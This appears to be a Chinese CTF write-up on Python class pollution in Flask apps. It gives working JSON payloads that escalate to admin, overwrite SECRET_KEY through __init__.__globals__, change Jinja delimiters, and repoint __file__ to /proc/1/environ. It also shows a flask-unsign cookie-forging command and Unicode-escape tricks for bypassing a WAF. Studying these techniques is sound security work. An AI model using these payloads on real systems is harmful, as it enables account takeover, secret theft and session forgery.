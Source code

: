 原型链
在Pyton中每个对象都有一个原型，原型上定义了对象可以访问的属性和方法。当对象访问属性或方法时，会先在自身查找，如果找不到就会去原型链上的上级对象中查找，原型链污染攻击的思路是通过修改对象原型链中的属性，使得程序在访问属性或方法时得到不符合预期的结果。
原型链污染和JavaScript的原型链污染差不多，都是需要merge 函数来修改父类的属性。
python中pydash也可以打原型链。

## **flask的原型链污染**
一个注册接口，默认传递参数是form
```
 "username": "test"&"password": "test",
```
已知登录后默认的jwt中is_admin:0

我们可以传递一个json:
```
{
  "username":"test",
  "password":"test",
  "is_admin":1
}
```
直接变成管理员。


^
还可以利用原型连污染，覆盖掉全局变量中的jwt的SECRET_KEY的值
```
{
    "username": "test",
    "password": "test",
    "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "123456"}}}}
}
```
这样就可以伪造flask的jwt。
```
flask-unsign --sign --cookie "{'is_admin': 1, 'username': 'test1'}" --secret  '123456'
 
eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ0ZXN0MSJ9.ZzYYAg.hqQmeTq4GCo4yfAofb0pngi0tpA
```


^
## **对jinja模板用的[# flag #]进行原型链污染**
污染 flask key 和 模板字符串的闭合规则。

因为是JSON，遇到waf还可以利用 JSON 解析 Unicode 来绕过 waf
```
app = Flask(__name__)
app.secret_key = generate_random_md5()

def merge(src, dst):
    # 可能造成原型链污染的函数
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)  #这里直接json.load可能造成原型链污染

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)


flag.html内容：
<body>
    这又是什么jinja语法啊！
    [#flag#]
</body>
```

这里要求password 等于全局变量app.secret_key后，可以通过flag.html带出flag。
flag.html里jinja模板用的[# flag #]，不是默认的{{ ... }}，不会渲染变量，这里需要加个jinja_env指定模板的闭合符号为[# #]让其可以像{{}}一样可以渲染。
```
{"__init__":
	{"__globals__":
		{"app":
			{
				"secret_key":"123456",
				"jinja_env":{
					"variable_start_string":"[#",
					"variable_end_string":"#]"
				}
			}
		}
	}
}
```
这里直接根目录json请求，遇到waf，是json，直接unicode编码绕过
```
{"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f":
	{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f":
		{"\u0061\u0070\u0070":
			{
				"secret\u005fkey":"123456",
				"jinja\u005f\u0065\u006e\u0076":{
					"variable\u005fstart\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"[#",
					"variable\u005fend\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"#]"
				}
			}
		}
	}
}
```
此时继续根目录POST传递获取jwt
```
username=adminer&password=123456
```
获取jwt再访问/admin就有正确的session了



^
## **其他题__file__**
```
data = {
	"username" : "admin", 
	"password" : "123456", # 在data中定义username和password保证data可以进入merge函数中
	"\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F": { # 在check中可以看到有black_list,__init__被过滤了，使用unioncode进行绕过
		"__globals__" : {
			"__file__": "../../../proc/1/environ" # 大部分的flag都隐藏在环境变量中
		}
	}
}
```


^
## **污染__file__**
```
@app.route("/src")
async def src(request):
    return text(open(__file__).read())


@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")

    return text("forbidden")
```
POST请求体传递
```
{"key": "__class__\\\\.__init__\\\\.__globals__\\\\.__file__", "value": "/24bcbd0192e591d6ded1_flag"}
```